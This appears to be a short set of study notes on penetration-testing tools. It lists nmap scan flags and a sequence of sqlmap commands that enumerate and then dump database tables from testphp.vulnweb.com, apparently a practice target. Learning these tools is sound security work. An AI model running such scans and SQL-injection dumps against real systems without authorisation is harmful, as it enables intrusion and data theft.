 nmap 
sudo ifconfig

nmap --top-ports 20 ip (port scanning)

-O  (OS fingerprint)
-sP (Ping Scan)
-sT (tcp)
-sU localhost (udp)
-sX (xmas)

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T products –-columns

sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T products -C name --dump





